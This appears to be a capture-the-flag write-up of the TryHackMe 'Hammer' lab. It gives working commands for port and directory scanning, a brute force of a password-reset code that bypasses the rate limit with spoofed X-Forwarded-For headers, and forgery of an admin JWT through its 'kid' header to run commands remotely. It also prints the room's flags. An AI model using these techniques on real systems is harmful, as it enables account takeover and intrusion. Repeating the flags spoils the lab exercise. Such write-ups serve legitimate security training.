









# Hammer

**Room:** [Hammer](https://tryhackme.com/room/hammer) · **Difficulty:** Medium · **OS:** Linux

A web application protects a command-execution dashboard behind authentication and then behind a command blacklist. The reset-password flow is brute-forceable through a rate-limit bypass, which gets an authenticated session; the dashboard's JWT then trusts an attacker-controlled `kid` header to pick its own signing key, which is the key to forging an admin token and bypassing the blacklist for RCE.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -sC -sV -p- -Pn -T4 10.48.170.148
```

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
```

The application lives on the non-standard port **1337**.

### Content discovery

```bash
ffuf -u http://10.48.170.148:1337/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```text
index.php               [Status: 200]
javascript              [Status: 301]
phpmyadmin              [Status: 301]
vendor                  [Status: 301]
```

`index.php` is a login form, so the page source is checked for hints before brute-forcing anything.

---

## 2. Recon of the login flow

Viewing the page source of `index.php` leaves a developer note behind:



```text
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

That naming convention is used to fuzz a second time, scoped to `hmr_*` directories:

```bash
ffuf -u http://10.48.170.148:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/big.txt
```

```text
css                     [Status: 301]
images                  [Status: 301]
js                      [Status: 301]
logs                    [Status: 301]
```

`hmr_logs` is readable and leaks an email address, `tester@hammer.thm`, inside an Apache error log — that becomes the account to attack:

```text
[authz_core:error] ... user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
```

---

## 3. Foothold, part 1 — brute-forcing the password reset

The site's **Forgot your password?** link leads to a reset flow that emails (or in this lab, silently accepts) a numeric recovery code:



Submitting the email returns a `302` with a `Rate-Limit-Pending` header, meaning the endpoint throttles by client — and that rate limit trusts `X-Forwarded-For`, which the client fully controls:



A 4-digit recovery code space (`0000`–`9999`) is combined with a list of spoofed source IPs in a **pitchfork** `ffuf` attack, so each guess rotates to a fresh `X-Forwarded-For` value and never gets rate-limited:

```bash
seq -w 0000 9999 > codes.txt
for i in {1..10000}; do printf "%d.%d.%d.%d\n" $((RANDOM%256)) $((RANDOM%256)) $((RANDOM%256)) $((RANDOM%256)); done > ips.txt

ffuf \
  -w codes.txt:W1 \
  -w ips.txt:W2 \
  -u "http://10.48.170.148:1337/reset_password.php" \
  -X POST \
  -d "recovery_code=W1&s=80" \
  -b "PHPSESSID=<session>" \
  -H "X-Forwarded-For: W2" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -fr "Invalid" \
  -mode pitchfork -fw 1 -rate 100 \
  -o output.json -of json
```

```text
[Status: 200, Size: 2190, ...]
    * W1: 2259
    * W2: 146.102.236.14
```

Code **2259** is the one request that doesn't come back `Invalid`. It is used to reach the actual reset form and set a new password for `tester@hammer.thm`:



```bash
# Login as tester@hammer.thm with the new password
```



The dashboard confirms the login and hands back the first flag:



```text
THM{AuthBypass3D}
```

---

## 4. Foothold, part 2 — JWT `kid` key forgery to bypass the command blacklist

The dashboard's **Enter command** box posts to `execute_command.php` carrying a JWT `Authorization: Bearer` token. A direct `cat` is blocked server-side:

```json
{"command":"cat "}
```
```text
{"error":"Command not allowed"}
```

So the application is blacklisting dangerous commands by string match rather than restricting what the *account* is allowed to do — which means forging a token with a privileged role is the way around it. Decoding the JWT shows the header carries a `kid` (key ID) claim used to select the HMAC secret, and it's a full file path:



```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/html/188ade1.key"
}
```
```json
{
  "data": { "user_id": 1, "email": "tester@hammer.thm", "role": "admin" }
}
```

Since the signing key is just read from whatever path `kid` names, an authenticated `ls` (still allowed — only certain command strings are blacklisted) is used to find a key file already sitting in the web root:

```json
{"command":"ls"}
```
```text
"output": "188ade1.key\ncomposer.json\nconfig.php\ndashboard.php\nexecute_command.php\n..."
```

Reading that file discloses its contents, which is exactly the HMAC secret the server will use whenever `kid` points at it:



With the key's **path** (for `kid`) and its **content** (for the signature) both known, a new JWT is forged — same `kid`, payload changed to `"role":"admin"`, signed with `HS256` using the recovered key — and the signature verifies:

```text
Valid JWT · Signature Verified
kid: /var/www/html/188ade1.key
role: admin
```

The forged admin token is sent with the original `cat` request, and this time it's accepted rather than blacklisted:

```json
{"command":"cat /home/ubuntu/flag.txt"}
```
```json
{"output":"THM{RUNANYCOMMAND1337}\n"}
```

### Flags captured

```text
THM{AuthBypass3D}
THM{RUNANYCOMMAND1337}
```

TryHackMe marks the room **Room completed (100%)** after both answers are submitted:


